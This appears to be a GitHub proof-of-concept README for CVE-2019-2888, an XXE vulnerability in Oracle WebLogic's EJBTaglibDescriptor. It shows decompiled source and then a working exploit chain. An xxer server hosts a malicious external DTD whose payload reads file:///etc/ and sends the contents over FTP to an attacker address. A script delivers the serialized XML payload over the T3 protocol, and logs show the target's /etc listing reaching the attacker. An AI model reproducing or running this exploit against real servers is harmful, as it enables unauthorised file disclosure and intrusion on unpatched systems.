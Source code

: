 # CVE-2019-2888 WebLogic EJBTaglibDescriptor XXE漏洞

![](./info.png)

![](./CVE-2019-2888.gif)

https://www.oracle.com/security-alerts/cpuoct2019.html

## fernflower.jar

`weblogic.jar/weblogic/servlet/ejb2jsp/dd/EJBTaglibDescriptor.class`

```
╭─root@jas502n /var 
╰─# find ./ |grep EJBTaglibDescriptor                                                                       ✔  8388  18:32:43 
.//weblogic.jar/weblogic/servlet/ejb2jsp/dd/EJBTaglibDescriptor.class
.//weblogic.jar/weblogic/servlet/ejb2jsp/gui/EJBTaglibDescriptorTree.class
.//weblogic.jar/weblogic/servlet/ejb2jsp/gui/EJBTaglibDescriptorPanel.class
```

```
╭─root@jas502n /var 
╰─# ls                                                                                                      ✔  8392  18:33:22 
EJBTaglibDescriptor.java fernflower.jar           weblogic.jar
```

#### EJBTaglibDescriptor.class to EJBTaglibDescriptor.java
```
╭─root@jas502n /var 
╰─# java -jar fernflower.jar .//weblogic.jar/weblogic/servlet/ejb2jsp/dd/EJBTaglibDescriptor.class ./
 ./
INFO:  Decompiling class weblogic/servlet/ejb2jsp/dd/EJBTaglibDescriptor
INFO:  ... done
╭─root@jas502n /var 
╰─# ls            
EJBTaglibDescriptor.java fernflower.jar           weblogic.jar
```
#### cat EJBTaglibDescriptor.java
![](./EJBTaglibDescriptor.png)
```
╭─root@jas502n /var 
╰─# cat EJBTaglibDescriptor.java

package weblogic.servlet.ejb2jsp.dd;

import java.io.Externalizable;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.InputStreamReader;
import java.io.ObjectInput;
import java.io.ObjectOutput;
import java.io.Reader;
import java.io.StringReader;
import java.io.StringWriter;
import java.util.ArrayList;
import java.util.Collection;
import java.util.Enumeration;
import java.util.Iterator;
import java.util.List;
import javax.xml.parsers.DocumentBuilder;
import org.w3c.dom.Element;
import org.xml.sax.InputSource;
import weblogic.servlet.ejb2jsp.BeanGenerator;
import weblogic.servlet.ejb2jsp.EJBMethodGenerator;
import weblogic.servlet.ejb2jsp.EJBTaglibGenerator;
import weblogic.servlet.ejb2jsp.HomeCollectionGenerator;
import weblogic.servlet.ejb2jsp.HomeFinderGenerator;
import weblogic.servlet.ejb2jsp.HomeMethodGenerator;
import weblogic.servlet.internal.dd.ToXML;
import weblogic.utils.Getopt2;
import weblogic.utils.classloaders.ClasspathClassLoader;
import weblogic.utils.io.XMLWriter;
import weblogic.xml.dom.DOMProcessingException;
import weblogic.xml.dom.DOMUtils;
import weblogic.xml.jaxp.WebLogicDocumentBuilderFactory;

public class EJBTaglibDescriptor implements ToXML, Externalizable {
   private static final long serialVersionUID = -9016538269900747655L;
   private FilesystemInfoDescriptor fileInfo;
   private BeanDescriptor[] beans;
   private transient ClassLoader jarLoader;
   private static final String PREAMBLE = "<?xml version=\"1.0\" encoding=\"ISO-8859-1\" ?>\n<!DOCTYPE ejb2jsp-taglib PUBLIC \"-//BEA Systems, Inc.//DTD EJB2JSP Taglib 1.0//EN\" \"http://www.bea.com/servers/wls600/dtd/weblogic-ejb2jsp.dtd\">";

   static void p(String var0) {
      System.err.println("[EJBTagDesc]: " + var0);
   }
```
## 0x01 下载python xxer

https://github.com/TheTwitchy/xxer

`info: Starting xxer_httpd on port 8989`

`info: Starting xxer_ftpd on port 2121`

`http://10.10.20.100:8989/ext.dtd`

![](./xxe_server.png)
```
╭─root@jas502n ~/xxer ‹master*›
╰─# python xxer.py -p 8989 -H 10.10.20.100

 _ _ _ _ ___ ___
|_'_|_'_| -_|  _|
|_,_|_,_|___|_|

version 1.1

info: Old DTD found. This file is going to be deleted.
info: Generating new DTD file.
info: Starting xxer_httpd on port 8989
info: Starting xxer_ftpd on port 2121
info: Servers started. Use the following payload (with URL-encoding):

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE xmlrootname [<!ENTITY % aaa SYSTEM "http://10.10.20.100:8989/ext.dtd">%aaa;%ccc;%ddd;]>




```

####  set file:///etc/ > ext.dtd

```
<!ENTITY % bbb SYSTEM "file:///etc/"><!ENTITY % ccc "<!ENTITY &#37; ddd SYSTEM 'ftp://fakeuser:%bbb;@10.10.20.100:2121/b'>">
```

## 0x02 通过T3协议，发送序列化后的xml payload
![](t3_send_xxe.png)

```
ale@Pentest: ~/Desktop/CVE-2019-2888# python weblogic.py 10.10.20.100 7001                                                 


 _       __     __    __            _         _  ___  __ ______
| |     / /__  / /_  / /___  ____ _(_)____   | |/ / |/ // ____/
| | /| / / _ \/ __ \/ / __ \/ __ `/ / ___/   |   /|   // __/
| |/ |/ /  __/ /_/ / / /_/ / /_/ / / /__    /   |/   |/ /___
|__/|__/\___/_.___/_/\____/\__, /_/\___/   /_/|_/_/|_/_____/
                          /____/

     CVE-2019-2888 WebLogic EJBTaglibDescriptor XXE漏洞

                  python By jas502n



[+] XXE_IP= 10.10.20.166
[+] XXE_IP= 8989
[+] http://10.10.20.166:8989/ext.dtd

connecting to 10.10.20.100 port 7001
sending "t3 12.2.1
AS:255
HL:19
MS:10000000
PU:t3://us-l-breens:7001

"
received "HELO"
sending payload...

ale@Pentest: ~/Desktop/CVE-2019-2888#
```

## 0x03 get /etc dir info
![](./get_etc_dir.png)

```
root@kali:~/xxer# python xxer.py -p 8989 -H 10.10.20.166

 _ _ _ _ ___ ___
|_'_|_'_| -_|  _|
|_,_|_,_|___|_|

version 1.1

info: Old DTD found. This file is going to be deleted.
info: Generating new DTD file.
info: Starting xxer_httpd on port 8989
info: Starting xxer_ftpd on port 2121
info: Servers started. Use the following payload (with URL-encoding):

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE xmlrootname [<!ENTITY % aaa SYSTEM "http://10.10.20.166:8989/ext.dtd">%aaa;%ccc;%ddd;]>


10.10.20.100 - - [01/Nov/2019 12:58:42] "GET /ext.dtd HTTP/1.1" 200 -
info: FTP: recvd 'USER fakeuser'
info: FTP: recvd 'PASS .pwd.lock
adduser.conf
alternatives
apparmor
apparmor.d
apt
bash_completion.d
bash.bashrc
bindresvport.blacklist
blkid.conf
blkid.tab
ca-certificates
ca-certificates.conf
console-setup
cron.d
cron.daily
cron.hourly
cron.monthly
cron.weekly
crontab
dbus-1
debconf.conf
debian_version
```

## 参考链接

https://github.com/NickstaDB/SerializationDumper

https://github.com/TheTwitchy/xxer

https://github.com/21superman/weblogic_cve-2019-2890

https://paper.seebug.org/1067/

https://www.oracle.com/security-alerts/cpuoct2019.html

